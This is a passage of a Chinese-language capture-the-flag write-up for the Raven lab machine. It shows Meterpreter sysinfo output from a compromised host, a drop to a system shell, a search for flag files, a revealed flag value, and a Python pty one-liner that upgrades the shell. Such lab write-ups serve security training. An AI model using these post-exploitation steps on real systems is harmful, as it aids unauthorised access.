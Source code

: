 ![image-20220301170437267](https://gitee.com/xxb667/img/raw/master/img/image-20220301170437267.png)

查看信息

```
sysinfo
```

```
Computer    : Raven
OS          : Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64
Meterpreter : php/linux

```

![image-20220301170726702](https://gitee.com/xxb667/img/raw/master/img/image-20220301170726702.png)

内核版本

```
Linux MiWiFi-R3A-srv 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64
```

![1610634874_6000567ab717ff07e0aed.png!small?1610634874533](https://gitee.com/xxb667/img/raw/master/img/1610634874_6000567ab717ff07e0aed.png!small)

输入下面命令

```
shell
```

之后直接输入Linux命令即可

![image-20220301190701047](https://gitee.com/xxb667/img/raw/master/img/image-20220301190701047.png)

在/var/www/目录找到flag2.txt

```
flag2{6a8ed560f0b5358ecf844108048eb337}
```

使用find查找flag文件

```
 find ./ -name "flag*"
```

![image-20220301200327439](https://gitee.com/xxb667/img/raw/master/img/image-20220301200327439.png)

### 切换终端

使用python获得完整性shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220301190836418](https://gitee.com/xxb667/img/raw/master/img/image-20220301190836418.png)
